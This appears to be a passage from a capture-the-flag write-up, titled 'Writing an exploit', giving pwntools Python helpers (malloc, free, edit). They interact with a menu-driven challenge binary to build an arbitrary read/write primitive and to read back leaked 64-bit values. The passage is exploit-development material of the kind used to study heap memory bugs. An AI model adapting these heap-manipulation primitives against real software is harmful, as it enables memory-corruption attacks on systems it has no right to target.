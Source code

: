 ## Writing an exploit

### Arbitrary read/write

```python
def malloc(i, data=65, data2=b'A'):
    '''Malloc 28 bytes'''
    if type(data) == int:
        log.info('Malloc [%d] = 0x%X %s', i, data, data2)
        data = p64(data)
    else:
        log.info('Malloc [%d] = %s %s', i, str(data), data2)
    try:
        io.sendline(b'1')
        io.sendlineafter(b'dream? ', str(i).encode())
        io.sendafter(b'))? ', data)
        io.sendlineafter(b'about? ', data2)
        log.debug(io.readuntil(b'> ').decode())
    except:
        log.error(io.read().decode())

def free(i, wait=True):
    '''Free 28 bytes'''
    log.info('Free [%d]', i)
    try:
        io.sendline(b'2')
        io.sendlineafter(b'in? ', str(i).encode())
        if wait:
            log.debug(io.readuntil(b'> ').decode())
    except:
        log.error(io.read().decode())


def edit(i, data):
    '''Edit 8 bytes'''
    if type(data) == int:
        log.info('Edit [%d] = 0x%X', i, data)
        data = p64(data)
    else:
        log.info('Edit [%d] = %s', i, str(data))
    try:
        io.sendline(b'3')
        io.sendlineafter(b'trouble? ', str(i).encode())
        response = io.sendafter(b'date: ', data)
        value = u64(response[59:response.find(b'\nDue')].ljust(8, b'\x00'))
        log.debug(io.readuntil(b'> ').decode())
        return value
    except:
        log.error(io.read().decode())
```
